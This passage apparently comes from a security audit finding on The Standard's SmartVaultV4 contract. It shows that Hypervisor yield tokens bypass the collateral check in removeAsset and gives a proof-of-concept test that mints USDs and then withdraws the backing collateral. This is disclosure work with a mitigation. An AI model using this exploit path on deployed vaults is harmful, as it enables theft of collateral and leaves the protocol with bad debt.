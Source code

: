 Hypervisor tokens are present only in the [`SmartVaultV4::hypervisors`](https://github.com/the-standard/smart-vault/blob/c6837d4a296fe8a6e4bb5e0280a66d6eb8a40361/contracts/SmartVaultV4.sol#L26) array and are not handled by the `TokenManager` contract, so `token.addr` will equal `address(0)` and the collateralisation check will be bypassed. Thus, these tokens can be extracted from the contract, leaving the Smart Vault in an undercollateralised state and the protocol with bad debt.

**Impact:** An attacker can borrow the maximum mintable amount of `USDs` against their deposited yield collateral, then leave their Smart Vault undercollateralised by simply removing the collateral Hypervisor tokens. The attacker receives both the `USDs` and its backing collateral while the protocol is left with bad debt, likely compromising the stability of `USDs` if executed on a large scale or atomically with funds obtained from a flash loan.

**Proof of Concept:** The following test can be added to `SmartVault.js`:

```javascript
it('can steal collateral hypervisor tokens', async () => {
  const ethCollateral = ethers.utils.parseEther('0.1')
  await user.sendTransaction({ to: Vault.address, value: ethCollateral });

  let { collateral, totalCollateralValue } = await Vault.status();
  let preYieldCollateral = totalCollateralValue;
  expect(getCollateralOf('ETH', collateral).amount).to.equal(ethCollateral);

  depositYield = Vault.connect(user).depositYield(ETH, HUNDRED_PC);
  await expect(depositYield).not.to.be.reverted;
  await expect(depositYield).to.emit(YieldManager, 'Deposit').withArgs(Vault.address, MockWeth.address, ethCollateral, HUNDRED_PC);

  ({ collateral, totalCollateralValue } = await Vault.status());
  expect(getCollateralOf('ETH', collateral).amount).to.equal(0);
  expect(totalCollateralValue).to.equal(preYieldCollateral);

  const mintedValue = ethers.utils.parseEther('100');
  await Vault.connect(user).mint(user.address, mintedValue);

  // Vault is fully collateralised after minting USDs
  expect(await Vault.undercollateralised()).to.be.equal(false);

  const hypervisorBalanceVault = await MockUSDsHypervisor.balanceOf(Vault.address);
  await Vault.connect(user).removeAsset(MockUSDsHypervisor.address, hypervisorBalanceVault , user.address);

  // Vault has no collateral left and as such is undercollateralised
  expect(await MockUSDsHypervisor.balanceOf(Vault.address)).to.be.equal(0);
  expect(await Vault.undercollateralised()).to.be.equal(true);

  // User has both the minted USDs and Hypervisor collateral tokens
  expect(await MockUSDsHypervisor.balanceOf(user.address)).to.be.equal(hypervisorBalanceVault);
  expect(await USDs.balanceOf(user.address)).to.be.equal(mintedValue);
});
```

**Recommended Mitigation:** Validate that the asset removed is not a Hypervisor token present in the `hypervisors` array.
